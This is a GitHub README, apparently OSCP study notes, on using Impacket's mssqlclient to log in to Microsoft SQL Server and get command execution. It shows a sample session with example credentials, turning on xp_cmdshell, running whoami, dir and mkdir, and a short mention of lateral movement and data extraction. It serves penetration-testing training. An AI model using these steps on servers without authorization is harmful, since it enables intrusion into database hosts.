 #  Penetration Testing with Impacket MSSQLClient "OSCP Guide"

This repository provides a comprehensive guide on how to perform advanced penetration testing using the Impacket `mssqlclient` tool. This guide covers the setup, configuration, and advanced usage scenarios for effective penetration testing.

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Connecting to a SQL Server](#connecting-to-a-sql-server)
4. [Enabling Advanced Options](#enabling-advanced-options)
5. [Executing Commands](#executing-commands)
6. [Advanced Usage](#advanced-usage)
7. [Security Considerations](#security-considerations)
8. [Resources](#resources)
9. [Contributing](#contributing)
10. [License](#license)

## Introduction

Impacket is a collection of Python classes for working with network protocols. `mssqlclient` is a tool within the Impacket suite designed to interact with Microsoft SQL Server. This guide provides advanced techniques for leveraging `mssqlclient` in penetration testing scenarios.

## Installation

To install Impacket, you need to have Python and pip installed. Follow these steps to install Impacket:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

## Connecting to a SQL Server

Use `mssqlclient` to connect to a SQL Server instance:

```bash
impacket-mssqlclient <username>:<password>@<hostname> -windows-auth
```

Example:

```bash
impacket-mssqlclient Malek:pass18113@192.168.212.182 -windows-auth
```

```plaintext
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Malek  dbo@master)> dir
ERROR: Line 1: Could not find stored procedure 'dir'.
SQL (SQLPLAYGROUND\Malek  dbo@master)> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Malek  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Malek  dbo@master)> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Malek  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Malek  dbo@master)> EXECUTE xp_cmdshell 'whoami';
output                        
---------------------------   
nt service\mssql$sqlexpress   

NULL                          
SQL (SQLPLAYGROUND\Malek  dbo@master)>
```

## Enabling Advanced Options

Before you can use certain advanced features like `xp_cmdshell`, you need to enable advanced options on the SQL Server.

### Step-by-Step Guide

1. **Enable advanced options**:
    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    ```

2. **Enable xp_cmdshell**:
    ```sql
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```

## Executing Commands

Once `xp_cmdshell` is enabled, you can execute system commands directly from the SQL Server.

### Example Commands

- **Check the current user**:
    ```sql
    EXEC xp_cmdshell 'whoami';
    ```

- **List directory contents**:
    ```sql
    EXEC xp_cmdshell 'dir';
    ```

- **Create a new directory**:
    ```sql
    EXEC xp_cmdshell 'mkdir C:\path\to\new_directory';
    ```

## Advanced Usage

Here are some advanced scenarios and techniques for using `mssqlclient`:

- **Uploading and Executing Scripts**:
    You can upload and execute scripts or binaries using `xp_cmdshell`.

- **Pivoting and Lateral Movement**:
    Use `mssqlclient` in combination with other tools to pivot and move laterally within the network.

- **Extracting Data**:
    Use SQL queries to extract sensitive data from the database.

## Security Considerations

Using tools like `mssqlclient` comes with significant security risks. Here are some considerations:

- Ensure you have proper authorization before performing penetration tests.
- Be aware of the potential impact of your actions on the target systems.
- Follow responsible disclosure practices if you discover vulnerabilities.

## Resources

- [Impacket GitHub Repository](https://github.com/fortra/impacket)
- [SQL Server Documentation](https://docs.microsoft.com/en-us/sql/sql-server/)


## Refrence 

Offsec 
```

You can copy and paste this markdown content directly into your `README.md` file on GitHub.
